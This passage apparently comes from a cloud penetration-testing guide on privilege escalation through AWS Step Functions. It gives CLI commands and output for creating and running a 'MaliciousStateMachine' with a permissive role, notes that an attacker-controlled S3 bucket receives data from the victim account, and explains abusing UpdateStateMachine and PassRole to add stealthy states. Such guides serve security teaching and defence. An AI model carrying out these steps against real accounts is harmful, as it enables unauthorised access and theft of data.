 * **Command** executed to **create the state machine**:

{% code overflow="wrap" %}
```bash
aws stepfunctions create-state-machine --name MaliciousStateMachine --definition file://stateMachineDefinition.json --role-arn arn:aws:iam::123456789012:role/PermissiveRole
{
  "stateMachineArn": "arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine",
  "creationDate": "2024-07-09T20:29:35.381000+02:00"
}
```
{% endcode %}

* **Command** executed to **start an execution** of the previously created state machine:

{% code overflow="wrap" %}
```json
aws stepfunctions start-execution --state-machine-arn arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine
{
    "executionArn": "arn:aws:states:us-east-1:123456789012:execution:MaliciousStateMachine:1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f",
    "startDate": "2024-07-09T20:33:35.466000+02:00"
}
```
{% endcode %}

{% hint style="warning" %}
The attacker-controlled S3 bucket should have permissions to accept an s3:PutObject action from the victim account.
{% endhint %}

**Potential Impact**: Unauthorized execution and manipulation of workflows and access to sensitive resources, potentially leading to significant security breaches.

### `states:UpdateStateMachine` & (not always required) `iam:PassRole`

An attacker with the **`states:UpdateStateMachine`** permission would be able to modify the definition of an state machine, being able to add extra stealthy states that could end in a privilege escalation. This way, when a legitimate user starts an execution of the state machine, this new malicious stealth state will be executed and the privilege escalation will be successful.

Depending on how permissive is the IAM Role associated to the state machine is, an attacker would face 2 situations:

1. **Permissive IAM Role**: If the IAM Role associated to the state machine is already permissive (it has for example the **`arn:aws:iam::aws:policy/AdministratorAccess`** policy attached), then the **`iam:PassRole`** permission would not be required in order to escalate privileges since it would not be necessary to also update the IAM Role, with the state machine definition is enough.
2. **Not permissive IAM Role**: In contrast with the previous case, here an attacker would also require the **`iam:PassRole`** permission since it would be necessary to associate a permissive IAM Role to the state machine in addition to modify the state machine definition.

{% code overflow="wrap" %}
```bash
aws states update-state-machine --state-machine-arn <value> [--definition <value>] [--role-arn <value>] [--logging-configuration <value>] \
[--tracing-configuration <enabled=true|false>] [--publish | --no-publish] [--version-description <value>]
```
{% endcode %}
